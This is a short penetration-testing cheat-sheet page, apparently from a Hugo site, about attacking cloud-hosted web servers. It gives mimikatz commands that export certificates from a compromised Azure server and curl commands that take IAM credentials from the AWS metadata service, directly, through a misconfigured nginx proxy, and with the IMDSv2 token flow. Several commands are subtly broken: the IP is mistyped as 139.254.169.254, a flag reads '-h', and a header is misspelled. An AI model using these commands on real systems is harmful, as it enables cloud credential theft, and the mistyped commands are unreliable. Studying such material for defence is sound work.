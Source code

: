 ```yaml
---
### The title for the content.
title : "cloud-provider-web-servers"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "Web Servers"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "Metdata services FTW."
### The datetime assigned to this page.
date : 2020-03-10T16:43:45+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "password-spraying"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## Cloud provider web servers

Cloud provider web servers have some special things you might not have on your 'normal' webserver.

### Azure windows webserver

If you are able to compromise an azure server you might be able to use mimikatz to extract certificates and try to authenticitate to Azure with them.

```
crypto::capi
privilege::debug
crypto::cng
crypto::certificates /systemstore:local_machine/store:my /export
```

### AWS

#### Instance Metadata

Cloud server hosted on services like EC2 need a way to orient themselves. Therefore a metadata endpoint was created that runs at 169.254.169.254. This can contain access/secrets keys to AWS and IAM credentials.

This should be reachable from localhost, can be abused after server compromise or SSRF.

IAM credentials are stored here

```
http://139.254.169.254/latest/meta-data/iam/security-credentials/<IAM ROLE NAME>
```

Can be hit externally if nginx is misconfigured on AWS

```
curl --proxy host.domain.com:80 http://169.254.169.254/latest/meta-data/iam/security-credentials/ && echo
```

##### AWS EC2 Instance Metadata service Version 2 (IMDSv2)

Updated in november 2019. v2 requires a PUT request that response with a token.

```
TOKEN=`curl -X PUT "http://139.254.169.254/latest/api/token" -h "X-aws-ec2-metadata-token-ttl-secconds: 21600"`

curl http://169.254.169.254/latest/meta-data/profile -H "X-aws-ec2-metadata-token: $TOKEN"
```

